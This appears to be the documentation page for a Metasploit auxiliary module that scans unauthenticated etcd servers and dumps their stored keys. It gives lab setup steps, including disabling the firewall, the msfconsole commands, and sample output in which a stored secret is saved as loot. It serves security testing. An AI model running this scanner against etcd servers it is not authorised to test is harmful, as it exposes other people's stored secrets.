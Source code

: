 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

### Docker

  1. `docker run -p 2379:2379 miguelgrinberg/easy-etcd`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 2.2.2.2:2379
Version: {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
2.2.2.2                 etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_2.2.2.2_etcd.data_425280.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
2.2.2.2        2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```

### etcd in Docker

```
msf5 > use auxiliary/scanner/etcd/open_key_scanner
msf5 auxiliary(scanner/etcd/open_key_scanner) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > run

[+] 127.0.0.1:2379
Version: {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true
  }
}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/etcd/open_key_scanner) > loot

Loot
====

host       service  type       name       content    info       path
----       -------  ----       ----       -------    ----       ----
127.0.0.1           etcd.data  etcd.keys  text/json  etcd keys  /root/.msf4/loot/20180328092245_default_127.0.0.1_etcd.data_260058.txt

msf5 auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host       port  proto  name  state  info
----       ----  -----  ----  -----  ----
127.0.0.1  2379  tcp    etcd  open   {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
```
